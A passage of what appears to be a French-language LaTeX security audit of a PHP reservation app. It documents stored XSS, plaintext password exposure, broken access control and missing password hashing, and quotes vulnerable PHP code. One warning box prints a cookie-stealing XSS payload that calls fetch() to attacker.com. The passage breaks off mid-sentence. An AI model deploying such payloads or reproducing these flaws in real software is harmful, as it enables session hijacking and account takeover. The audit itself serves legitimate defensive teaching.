  
\includegraphics[width=0.8\textwidth]{Stored_XSS.png}
  \caption{Injection du payload XSS dans le champ Motif de la réservation}
  \label{fig:xss_inject}
\end{figure}

Quand l'administrateur consulte la page des utilisateurs, le navigateur tente de charger
l'image \texttt{random.gif} qui n'existe pas, déclenchant l'événement \texttt{onerror} :

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth]{Stored_XSS_res.png}
  \caption{Exécution du XSS chez l'administrateur --- popup alert déclenchée}
  \label{fig:xss_res}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth]{Stored_XSS_caught_error.png}
  \caption{Payload XSS visible dans la base de données et dans le tableau admin}
  \label{fig:xss_error}
\end{figure}

\begin{warningbox}[Impact réel]
En production, un attaquant remplacerait \texttt{alert()} par un vol de cookie de session :
\begin{verbatim}
<img src="x" onerror="fetch('https://attacker.com/?c='+document.cookie)">
\end{verbatim}
Cela permettrait de prendre le contrôle du compte administrateur.
\end{warningbox}

%------------------------------------------------------------
\section{Vuln. 5 --- Sensitive Data Exposure}
%------------------------------------------------------------

\subsection{Description}

Dans \texttt{admin/users.php}, les mots de passe des enseignants sont récupérés depuis la base
de données et affichés en clair dans un tableau HTML :

\begin{lstlisting}[language=PHP, caption={Code vulnérable --- admin/users.php}]
$users = $conn->query("SELECT * FROM users WHERE role='enseignant'");

// Affichage du mot de passe en clair dans le tableau HTML
<td><code><?= $u['password'] ?></code></td>
\end{lstlisting}

\subsection{Exploitation}

Il suffit de se connecter en tant qu'administrateur et d'accéder à la page
\textbf{Gestion des Enseignants} :

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth]{Sensitive_Data_Exposure.png}
  \caption{Mots de passe affichés en clair dans l'interface d'administration}
  \label{fig:sensitive}
\end{figure}

\begin{warningbox}[Impact]
Tout administrateur (ou attaquant ayant compromis un compte admin via SQLi) peut voir
les mots de passe de tous les enseignants, et potentiellement les utiliser sur d'autres
services si ces mots de passe sont réutilisés (password reuse attack).
\end{warningbox}

%------------------------------------------------------------
\section{Vuln. 6 --- Broken Access Control}
%------------------------------------------------------------

\subsection{Description}

Dans \texttt{enseignant/annuler.php}, aucune vérification n'est faite pour s'assurer que
la réservation appartient bien à l'utilisateur connecté :

\begin{lstlisting}[language=PHP, caption={Code vulnérable --- annuler.php}]
$id = (int)$_GET['id'];
// VULNERABLE : aucune verification de propriete
$conn->query("UPDATE reservations SET statut='annulee' WHERE id=$id");
\end{lstlisting}

\subsection{Exploitation}

\begin{enumerate}
  \item Fatima Benali crée une réservation (id = 5) :
\end{enumerate}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth]{Fatima_reservation.png}
  \caption{Réservation créée par Fatima Benali}
  \label{fig:fatima_resa}
\end{figure}

\begin{enumerate}
  \setcounter{enumi}{1}
  \item Mohammed Alaoui accède directement à l'URL :
    \texttt{/enseignant/annuler.php?id=5}
\end{enumerate}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth]{Broken_Access_Control_annulation_de_reservation.png}
  \caption{Tentative d'annulation de la réservation d'un autre utilisateur}
  \label{fig:bac_attempt}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth]{reservation_annule.png}
  \caption{Réservation de Fatima annulée par Mohammed --- sans aucune erreur}
  \label{fig:bac_success}
\end{figure}

%------------------------------------------------------------
\section{Vuln. 7 --- No Password Hashing}
%------------------------------------------------------------

\subsection{Description}

Les mots de passe sont stockés en clair dans la base de données. Une consultation directe
de la table \texttt{users} le confirme :

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth]{no_password_hashing.png}
  \caption{Mots de passe stockés en clair dans la base de données MySQL}
  \label{fig:no_hash}
\end{figure}

\begin{warningbox}[Impact]
En cas de compromission de la base de données (via SQLi, dump, ou accès serveur),
